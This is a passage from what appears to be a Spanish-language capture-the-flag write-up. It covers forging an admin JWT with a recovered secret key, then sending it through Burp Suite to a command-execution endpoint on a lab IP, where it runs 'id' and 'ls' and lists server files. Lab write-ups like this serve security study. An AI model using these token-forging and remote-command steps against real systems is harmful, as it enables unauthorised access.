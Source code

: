 Luego utilicé un script en Python (generar_token.py) para firmar este payload con la clave secreta y producir un JWT válido:

<img width="1052" height="171" alt="genero nuevo token con admin" src="https://github.com/user-attachments/assets/881b8aa1-d809-4e06-abac-902f08b3eb06" />

📌 Resultado:

[+] JWT generado:
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJodHRwOi...

✅ Con este token ahora es posible autenticarse como administrador en la aplicación, lo que permite acceso completo a funcionalidades restringidas y potencialmente a otras flags.

## 🔎 Paso 17: Uso del JWT admin en Burp Suite

Con el token JWT generado con privilegios de administrador, probé a **inyectarlo en las cabeceras de autorización** usando Burp Suite en el endpoint:

POST /execute_command.php HTTP/1.1
Host: 10.10.48.44:1337
Authorization: Bearer <JWT_ADMIN_GENERADO>
Content-Type: application/json

{
"command": "id"
}

📌 **Respuesta**:


Esto confirmó que tenía ejecución remota de comandos en el servidor, ahora autenticado como **admin**.

<img width="1143" height="613" alt="capturar solicitud de comando burpsuite token admin" src="https://github.com/user-attachments/assets/f91712aa-5f3f-454d-8a9b-b0ac779c5837" />

---

## 🔎 Paso 18: Exploración del sistema y búsqueda de flags

Posteriormente ejecuté:

<img width="1241" height="602" alt="capturar solicitud de comando burpsuite" src="https://github.com/user-attachments/assets/eaa88bf8-b4f5-4a90-bace-b18ee188533a" />

```json
{
  "command": "ls"
}

188ade1.key
composer.json
config.php
dashboard.php
execute_command.php
hmr_css
hmr_images
hmr_js
hmr_logs
index.php
logout.php
reset_password.php
vendor
```
